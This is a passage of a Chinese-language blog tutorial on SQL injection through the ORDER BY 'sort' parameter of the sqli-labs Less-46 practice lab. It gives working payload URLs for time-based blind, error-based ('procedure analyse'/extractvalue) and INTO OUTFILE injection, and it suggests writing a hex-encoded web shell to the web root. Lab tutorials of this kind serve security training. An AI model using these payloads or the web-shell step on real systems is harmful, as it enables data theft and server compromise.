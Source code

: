 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214216296-1391834321.png)

从上述两个图的结果，对比rand(ture)和rand(false)的结果，可以看出报错注入是成功的。

**延时注入例子**

[http://127.0.0.1/sqli-labs/Less-46/?sort=%20(SELECT%20IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,md5(%271%27)),null)%20FROM%20(select%20database()%20as%20current)%20as%20tb1)](http://127.0.0.1/sqli-labs/Less-46/?sort=%20(SELECT%20IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,md5(%271%27)),null)%20FROM%20(select%20database()%20as%20current)%20as%20tb1))

[http://127.0.0.1/sqllib/Less-46/?sort=1%20and%20If(ascii(substr(database(),1,1))=116,0,sleep(5))](http://127.0.0.1/sqllib/Less-46/?sort=1%20and%20If(ascii(substr(database(),1,1))=116,0,sleep(5)))

上述两个延时注入的例子可以很明显的看出时间的不同，这里就不贴图了，图片无法展示延时。。。

同时也可以用?sort=1 and 后添加注入语句。这里就不一一演示了。

1.  procedure analyse参数后注入
    
    利用procedure analyse参数，我们可以执行报错注入。同时，在procedure analyse和order by之间可以存在limit参数，我们在实际应用中，往往也可能会存在limit后的注入，可以利用procedure analyse进行注入。
    
    以下为示范例
    
    [http://127.0.0.1/sqli-labs/Less-46/?sort=1%20%20procedure%20analyse(extractvalue(rand(),concat(0x3a,version())),1)](http://127.0.0.1/sqli-labs/Less-46/?sort=1%20%20procedure%20analyse(extractvalue(rand(),concat(0x3a,version())),1))
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214219703-246276581.png)
    
2.  导入导出文件into outfile参数
    
    http://127.0.0.1/sqllib/Less-46/?sort=1%20into%20outfile%20%22c:\\\\wamp\\\\www\\\\sqllib\\\\test1.txt%22
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214221640-1879673458.png)
    
    将查询结果导入到文件当中
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214222718-942310005.png)
    
    那这个时候我们可以考虑上传网马，利用lines terminated by。
    
    Into outtfile c:\\\\wamp\\\\www\\\\sqllib\\\\test1.txt lines terminated by 0x(网马进行16进制转换)
    

[查看原网页: www.cnblogs.com](https://www.cnblogs.com/lcamry/p/5762710.html)